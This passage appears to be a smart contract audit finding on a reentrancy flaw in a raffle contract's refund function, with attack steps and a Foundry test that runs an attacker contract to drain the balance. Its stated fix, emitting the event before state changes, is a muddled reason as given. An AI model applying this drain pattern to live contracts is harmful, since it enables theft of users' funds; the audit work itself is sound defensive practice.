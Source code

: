 The `RaffleRefunded` event should be emitted before the state changes. It is a best practice to emit the event before the state changes.

It avoid any confusion about the state of the contract, and avoid to let the door open to any reentrancy attack.

**Impact:**<br />

- Leading to sucking refund funds from the contract. And making the refund function unusable for other users has no funds will be left. As the contract will then be empty.

**Proof of Concept:**<br />

Run `slither .` in the root folder of the project, there will be the below output details:

<details><summary> Click to see Slither output</summary></details>

- Test case to show the reentrancy attack using an attacker contract:

1. Users enters the raffle.
2. Attacker sets up a contract with a fallback function that calls `refund`.
3. Attacker enters the raffle
4. Attacker calls `refund` from their contract, draining the contract balance.

\pagebreak

```javascript

    function testCanGetRefundReentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        console.log(
            "The balance of the raffle contract before attack is: %s",
            address(puppyRaffle).balance
        );

        // introduce attacker
        AttackReentrant attackerContract = new AttackReentrant(puppyRaffle);
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 10 ether);

        uint256 attackerContractBalanceBefore = address(attackerContract)
            .balance;

        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        console.log(
            "Attacker contract balance before the attack: %s",
            attackerContractBalanceBefore
        );
        console.log(
            "Attacker contract balance after the attack: %s",
            address(attackerContract).balance
        );

               console.log(
            "The balance of the raffle contract after attack is: %s",
            address(puppyRaffle).balance
        );
    }

```
